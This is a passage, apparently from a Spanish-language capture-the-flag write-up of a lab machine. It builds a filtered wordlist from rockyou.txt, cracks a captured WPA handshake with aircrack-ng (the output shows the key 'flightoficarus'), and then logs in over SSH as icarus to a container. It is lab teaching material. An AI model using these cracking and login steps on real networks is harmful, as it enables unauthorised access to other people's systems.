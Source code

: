 Vemos que se trata de ***Icaro*** o ***Icarus***, así que nos vamos a crear un direccionario a partir de `rockyou.txt` de aquellas palabras que contengan *icar*:

```bash
❯ cat /usr/share/wordlists/rockyou.txt | grep "icar" > diccionario.txt
```

Ahora si procedemos a obtener la contraseña:

```bash
❯ aircrack-ng -w diccionario.txt captured.cap

                               Aircrack-ng 1.6 

      [00:00:14] 4555/4591 keys tested (332.14 k/s) 

      Time left: 0 seconds                                      99.22%

                        KEY FOUND! [ flightoficarus ]


      Master Key     : B1 D1 0A 51 A8 BF F2 F9 35 BC 56 5E 30 CA D5 4D 
                       05 1F 77 B3 BB 39 E2 4F 45 03 66 F6 12 2D 1B 23 

      Transient Key  : A8 1E 31 D3 6D A0 7B BA 82 73 04 31 99 3C BF 89 
                       17 6C 29 B1 50 72 C2 AC 2C 18 0B 6B 5F F9 D6 E7 
                       93 F9 AC 2A AD D3 F2 35 60 75 CF B3 5C 8F 6D AB 
                       F6 00 BA 73 8E 7C 72 AA 38 01 10 41 80 13 F8 A4 

      EAPOL HMAC     : 1D 54 03 3C B2 5E A2 BC D5 86 5A 09 67 82 12 85 
```

Ya tenemos otra posible contraseña, asi que la guardamos. Recordando, la máquina tiene el pueto 2222 abierto asociado al servicio SSH, por lo que podemos probar conectarnos a dicho puerto como el usuario ***icarus*** y utilizar las dos posibles contraseñas obtenidas:

```bash
❯ ssh icarus@10.10.10.83 -p2222
The authenticity of host '[10.10.10.83]:2222 ([10.10.10.83]:2222)' can't be established.
ECDSA key fingerprint is SHA256:uyZtmsYFq/Ac58+SEgLsL+NK05LlH2qwp2EXB1DxlO4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.10.83]:2222' (ECDSA) to the list of known hosts.
icarus@10.10.10.83's password: 
Last login: Sun Apr 15 16:44:40 2018 from 10.10.14.4
icarus@620b296204a3:~$ whoami
icarus
icarus@620b296204a3:~$
```

Ya ingresamos a la máquina como el usuario ***icarus***; sin embargo, nos damos cuenta de que nos encontramos en otro contenedor debido al prompt `icarus@620b296204a3:~` y la dirección IP:

```bash
icarus@620b296204a3:~$ hostname -I
172.19.0.2 
icarus@620b296204a3:~$ 
```
